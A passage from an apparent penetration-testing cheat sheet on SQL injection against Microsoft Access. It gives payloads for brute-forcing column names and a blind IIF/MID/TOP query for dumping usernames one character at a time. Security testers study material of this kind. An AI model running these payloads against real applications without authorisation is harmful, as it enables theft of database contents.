 ### Brute-Forcing Columns names

You can **brute-force current columns names** with the chaining equals trick with:

```sql
'=column_name='
```

Or with a **group by**:

```sql
-1' GROUP BY column_name%00
```

Or you can brute-force column names of a **different table** with:

```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```

### Dumping data

We have already discussed the [**chaining equals technique**](ms-access-sql-injection.md#chaining-equals-+-substring) **to dump data from the current and other tables**. But there are other ways:

```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```

In a nutshell, the query uses an “if-then” statement in order to trigger a “200 OK” in case of success or a “500 Internal Error” otherwise. Taking advantage of the TOP 10 operator, it is possible to select the first ten results. The subsequent usage of LAST allows to consider the 10th tuple only. On such value, using the MID operator, it is possible to perform a simple character comparison. Properly changing the index of MID and TOP, we can dump the content of the “username” field for all rows.

### Time Based

Check [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676\(v=technet.10\)?redirectedfrom=MSDN)

### Other Interesting functions

* `Mid('admin',1,1)` get substring from position 1 length 1 (initial position is 1)
* `LEN('1234')` get length of string
* `ASC('A')` get ascii value of char
* `CHR(65)` get string from ascii value
* `IIF(1=1,'a','b')` if then
* `COUNT(*)` Count number of items

## Enumerating tables

From [**here**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) you can see a query to get tables names:
